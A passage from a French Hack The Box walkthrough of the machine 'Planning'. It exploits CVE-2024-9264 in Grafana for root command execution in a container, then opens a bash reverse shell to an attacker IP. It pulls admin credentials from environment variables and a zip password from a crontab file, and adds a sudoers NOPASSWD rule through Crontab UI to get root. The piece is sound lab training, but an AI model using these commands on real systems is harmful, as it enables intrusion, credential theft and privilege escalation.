[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: bash -c "id"
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash -c "id" >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
uid=0(root) gid=0(root) groups=0(root)
```

La commande est bien exécutée avec l’utilisateur `root`.

Il faut toutefois rester prudent : ce `root` correspond simplement au contexte d’exécution de Grafana. Rien ne prouve qu’il s’agit du système hôte.

### Lecture de fichiers

Tu testes ensuite la lecture de fichiers avec `/etc/passwd` :

```bash
python3 CVE-2024-9264.py \
-u admin \
-p '0D5oT70Fq13EvB5r' \
-f /etc/passwd \
http://grafana.planning.htb
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

Le fichier est bien lu, mais son contenu donne déjà un indice important :

```
root:x:0:0:root:/root:/bin/bash
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

La présence de l’utilisateur `grafana`, associée aux chemins Grafana classiques, confirme que l’exécution se fait dans l’environnement Grafana.

### Reverse shell

Tu peux maintenant remplacer la commande de test par un reverse shell.

Sur Kali, tu prépares l’écoute :

```bash
nc -lvnp 4444
```

Puis tu lances l’exploitation :

```bash
python3 CVE-2024-9264.py \
-u admin \
-p '0D5oT70Fq13EvB5r' \
-c 'bash -c "bash -i >& /dev/tcp/10.10.x.x/4444 0>&1"' \
http://grafana.planning.htb

```


Tu obtiens alors un shell interactif :

```bash
Connection received on 10.129.x.x 60514
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
```

**Le nom d’hôte `7ce659d667d7`, composé d’un identifiant hexadécimal court, est typique d’un conteneur Docker. Cela confirme que le reverse shell obtenu via Grafana ne donne pas directement accès à l’hôte `planning.htb`, mais à un conteneur.**

### Analyse de l’environnement Grafana

Après l’obtention du reverse shell, plusieurs pistes d’énumération sont possibles.

Une première approche consiste à parcourir les différents menus d’administration et de configuration proposés par Grafana afin d’y rechercher des informations sensibles ou des erreurs de configuration intéressantes.

En pratique, cette exploration se révèle longue et fastidieuse :

- la majorité des paramètres semblent correspondre à une installation relativement standard ;
- aucune datasource sensible n’est exposée ;
- aucun secret ou jeton réutilisable n’apparaît dans l’interface ;
- aucune fonctionnalité immédiatement exploitable n’apparaît.

Cette phase d’exploration ne débouche donc sur rien d’exploitable directement.

En consultant ensuite la documentation Grafana accessible depuis l’interface, tu remarques que la configuration peut être surchargée via des variables d’environnement préfixées par `GF_`.




Tu affiches donc les variables d’environnement du shell obtenu :

```bash
env
```

Résultat :

```bash
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
```


Les variables `GF_SECURITY_ADMIN_USER` et `GF_SECURITY_ADMIN_PASSWORD` contiennent directement des identifiants :

```text
enzo:RioTecRANDEntANT!
```

Ces identifiants ne correspondent pas au compte `admin` utilisé précédemment pour accéder à Grafana.

La suite logique consiste donc à tester ce couple utilisateur/mot de passe en SSH sur la machine cible.

### user.txt

Tu testes alors ces identifiants en SSH sur la machine cible :

```bash
ssh enzo@planning.htb
```

La connexion fonctionne immédiatement :

```bash
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)
```

Tu obtiens ainsi un accès shell stable en tant qu’utilisateur `enzo`.

Tu peux alors récupérer le flag utilisateur :

```bash
enzo@planning:~$ ls -l
total 4
-rw-r----- 1 root enzo 33 May 19 07:55 user.txt

enzo@planning:~$ cat user.txt
1f71xxxxxxxxxxxxxxxxxxxxxxxx169d
```

La prise pied sur `planning.htb` est maintenant complète.

---

## Escalade de privilèges



### Surveillance des processus avec pspy64

Une autre vérification classique consiste à surveiller les processus exécutés sur la machine afin d’identifier d’éventuelles tâches automatiques lancées par `root`.

Pour cela, tu ouvres une deuxième session SSH et tu utilises l’outil `pspy64`.

Comme expliqué dans la recette , l’objectif est de lancer d’abord l’observation des tâches root puis de continuer l’énumération dans une autre session.

Tu télécharges ensuite l’outil dans un répertoire accessible en écriture :

```bash
cd /dev/shm
wget http://10.10.x.x:8000/pspy64
chmod +x pspy64
./pspy64
```

L’objectif est notamment de détecter :

- des scripts exécutés automatiquement par `root`
- des tâches cron personnalisées
- des commandes exécutées périodiquement
- des accès à des fichiers sensibles
- des binaires exécutés avec des chemins relatifs

Tu laisses ensuite `pspy64` tourner en arrière-plan pendant la suite de l’énumération afin d’observer d’éventuelles tâches exécutées automatiquement par `root`.

### Sudo -l

Comme souvent lors d’une phase d’escalade de privilèges Linux, tu commences par vérifier les permissions sudo de l’utilisateur courant :

```bash
enzo@planning:~$ sudo -l
[sudo] password for enzo: 
Sorry, user enzo may not run sudo on planning.
```


### Exploration du contexte utilisateur

Avant d’aller plus loin, tu vérifies le contexte dans lequel tu te trouves :

```bash
whoami
id
pwd
uname -a
hostname
```

Résultat :

```bash
enzo
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
/home/enzo
Linux planning 6.8.0-59-generic #61-Ubuntu SMP PREEMPT_DYNAMIC Fri Apr 11 23:16:11 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
planning
```

Avant de poursuivre l’analyse, tu vérifies également quels fichiers sont accessibles à l’utilisateur `enzo`, en particulier dans `/home` et `/opt`, deux emplacements qui contiennent fréquemment des scripts internes, fichiers de configuration, sauvegardes ou outils personnalisés utiles pour une escalade de privilèges.

Commande rapide :

```bash
find /home /opt -type f -readable 2>/dev/null
```

Dans notre cas, la commande révèle notamment :

```bash
/home/enzo/user.txt
/home/enzo/.ssh/authorized_keys
/home/enzo/.cache/motd.legal-displayed
/home/enzo/.profile
/home/enzo/.bash_logout
/home/enzo/.bashrc
/opt/crontabs/crontab.db
```

Le fichier `/opt/crontabs/crontab.db` attire particulièrement l’attention. Son nom laisse penser qu’il pourrait contenir des tâches planifiées personnalisées liées à une application installée dans `/opt`.

Tu identifies ensuite le type du fichier :

```bash
file /opt/crontabs/crontab.db
```

Résultat :

```
/opt/crontabs/crontab.db: New Line Delimited JSON text data
```

Le fichier contient donc des objets JSON séparés ligne par ligne. En l’affichant, tu confirmes qu’il s’agit bien de tâches planifiées personnalisées :

```bash
cat /opt/crontabs/crontab.db
```

L’entrée `Grafana backup` attire immédiatement l’attention :

```json
"command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz"
```

Le paramètre suivant est particulièrement intéressant :

```json
zip -P P4ssw0rdS0pRi0T3c
```

L’option `-P` de `zip` permet de définir un mot de passe utilisé pour protéger l’archive ZIP.

**Cette valeur ressemble fortement à un mot de passe réutilisable. Tu la conserves donc pour les prochaines étapes de l’analyse.**


### Recherche de binaires SUID

Tu poursuis l’énumération en recherchant les **binaires SUID**, qui permettent parfois d’exécuter certaines commandes avec les privilèges de leur propriétaire.

```bash
find / -perm -4000 -type f 2>/dev/null
```

La liste obtenue ne contient que des binaires système classiques tels que :

```bash
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
...
```

Ces résultats ne révèlent aucun binaire SUID inhabituel ni piste exploitable immédiate.

### Analyse des Linux capabilities

Tu vérifies ensuite si certains binaires disposent de **capabilities Linux**, qui permettent à un programme d’effectuer certaines actions privilégiées sans être exécuté en root ou via un binaire SUID.

La vérification se fait avec la commande suivante :

```bash
getcap -r / 2>/dev/null
```

Résultat :

```bash
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

Ces résultats ne révèlent aucune capability inhabituelle ni piste exploitable immédiate.

### Analyse complémentaire avec suid3num.py

Pour compléter l’analyse des binaires SUID, tu utilises l’outil suid3num.py, qui permet d’identifier rapidement :

- les binaires SUID intéressants
- leur présence éventuelle dans GTFOBins

Tu le télécharges et l’exécutes depuis un répertoire en mémoire (/dev/shm) :

```bash
cd /dev/shm
wget http://10.10.x.x:8000/suid3num.py
python3 suid3num.py
```

L’analyse confirme principalement la présence de binaires système classiques :

```bash
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
...
```

L’outil confirme que :

- tous les binaires SUID présents sont standards
- aucun binaire personnalisé n’est identifié
- aucun binaire exploitable via GTFOBins n’est détecté
  

Cette vérification confirme que la piste des SUID ne mène à rien dans ce cas précis.

### Inspection des tâches cron
Tu vérifies ensuite les **tâches planifiées (cron)**, car certains scripts exécutés automatiquement par le système peuvent être modifiables par un utilisateur et permettre une élévation de privilèges.

Les crons système peuvent être consultés avec :

```bash
cat /etc/crontab
```

Résultat :

```bash
17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
```

Aucune tâche personnalisée ni script modifiable par l’utilisateur `enzo` n’apparaît ici.

### Analyse des services locaux

Tu vérifies ensuite les ports en écoute sur la machine afin d’identifier d’éventuels services accessibles uniquement depuis localhost.

```
netstat -tulpn
```

Résultat : 

```bash
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:38247         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -    
```


Parmi les services écoutant uniquement sur `127.0.0.1`, le port `8000` attire particulièrement l’attention.

Dans les environnements Linux et CTF, ce port est fréquemment utilisé par des applications web internes, des interfaces d’administration ou des outils de développement accessibles uniquement localement.

Contrairement à certains services internes comme MySQL ou DNS, une interface web locale peut parfois offrir directement des fonctionnalités sensibles exploitables après une compromission initiale.

> **Méthode pratique à retenir**
>
> Quand tu identifies des services accessibles uniquement sur `127.0.0.1`, commence généralement par prioriser les ports web les plus courants :
>
> ```text
> 3000
> 5000
> 8000
> 8080
> 9000
> ```
>
> Ces ports hébergent fréquemment des interfaces d’administration, dashboards internes, API locales ou outils de supervision potentiellement exploitables.

Tu choisis donc d’investiguer ce service en priorité.

Pour exposer ce service interne sur ta machine Kali Linux, tu mets en place un tunnel SSH local avec l’option `-L` :

```bash
ssh -L 8001:127.0.0.1:8000 enzo@planning.htb  
enzo@planning.htb's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)
```

Le service devient alors accessible dans ton navigateur à l’adresse suivante :

```url
http://127.0.0.1:8001
```





Pour l’authentification, tu testes le mot de passe récupéré dans `/opt/crontabs/crontab.db`, utilisé dans la commande de sauvegarde Grafana :

```
P4ssw0rdS0pRi0T3c
```

L’authentification te donne alors accès à une interface web dédiée à la gestion des tâches planifiées du système.



Tu crées alors une nouvelle tâche planifiée dont l’objectif est d’ajouter une règle `sudoers` accordant tous les privilèges sudo sans mot de passe à l’utilisateur `enzo`.

La commande utilisée écrit directement une nouvelle règle dans `/etc/sudoers.d/` :

```bash
echo 'enzo ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/enzo
```





Après avoir enregistré la tâche, tu forces son exécution avec l’option **Run Now** pour ajouter immédiatement la règle sudoers au système.




### root.txt

Tu peux maintenant obtenir un shell root sans mot de passe grâce à la règle nouvellement ajoutée, puis accéder au fichier `root.txt` :

```bash
enzo@planning:~$ sudo -i
root@planning:~# ls -l /root
total 8
-rw-r----- 1 root root   33 May 19 07:55 root.txt
drwxr-xr-x 2 root root 4096 Apr  3  2025 scripts
root@planning:~# cat /root/root.txt
7ae1xxxxxxxxxxxxxxxxxxxxxxxx0678
```

La machine `planning.htb` est désormais complètement compromise et le challenge est terminé.

---

## Conclusion

La machine **Planning** met surtout l’accent sur l’importance de l’énumération post-exploitation et sur les risques liés aux services internes accessibles uniquement en localhost.

L’exploitation de **CVE-2024-9264** permet ici d’obtenir rapidement une exécution de commandes dans un conteneur Grafana, mais la compromission complète de la machine repose surtout sur l’analyse méthodique de l’environnement obtenu :

- récupération d’identifiants sensibles dans les variables d’environnement ;
- réutilisation de mots de passe sur d’autres services ;
- découverte d’un service web local non exposé publiquement ;
- abus d’une interface de gestion cron permettant de modifier la configuration sudoers.

Le challenge illustre également une situation fréquente en environnement réel : un accès initial limité ne suffit pas toujours à compromettre directement l’hôte principal, notamment en présence de conteneurs Docker. L’énumération locale reste alors l’étape la plus importante pour identifier les chemins de pivot ou d’escalade de privilèges.

Après l’ajout d’une règle `sudoers` via **Crontab UI**, tu peux obtenir un shell root, récupérer `root.txt` et terminer avec succès la machine **Planning** de Hack The Box.

Cette machine constitue donc un excellent exercice pour s’entraîner à :

- exploiter une vulnérabilité post-authentifiée ;
- analyser un environnement Docker compromis ;
- rechercher des secrets réutilisables ;
- explorer les services accessibles uniquement en localhost ;
- exploiter des mécanismes cron et sudoers mal sécurisés.

